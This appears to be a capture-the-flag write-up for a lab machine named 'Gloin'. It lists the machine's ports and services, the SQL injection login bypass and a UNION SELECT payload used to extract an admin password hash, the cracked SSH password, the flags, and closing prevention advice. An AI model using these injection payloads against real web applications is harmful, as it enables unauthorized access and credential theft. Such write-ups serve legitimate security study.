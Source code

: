 # Gloin Exploit
- IP: 10.0.5.31
### Ports
- 22 ssh Openssh for_Windows_7.7 (protocol 2.0)
- 443 ssl/http Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
- 3389 ms-wbt-server Microsoft Terminal Services
## Foothold
- dirbuster to find admin page
- sql OR 1=1 to login
- `id=8' union select 1,password,3,4,5,6,7 from admin_list--+` on exam page to get admin hash
- used john to reverse hash
## LOGIN for ssh
- username: Administrator
- password: F1r3Dr@g0n
## flags
- root:`62c4462a-aec8-4e99-8cfe-ac7cb67c01b2`
- user:`b5856212-779b-4cff-87fa-63671e0a3131`
## How to prevent
- Validate SQL fields
- Parameterize the queries to only allow specific inputs
- Salt the hashes
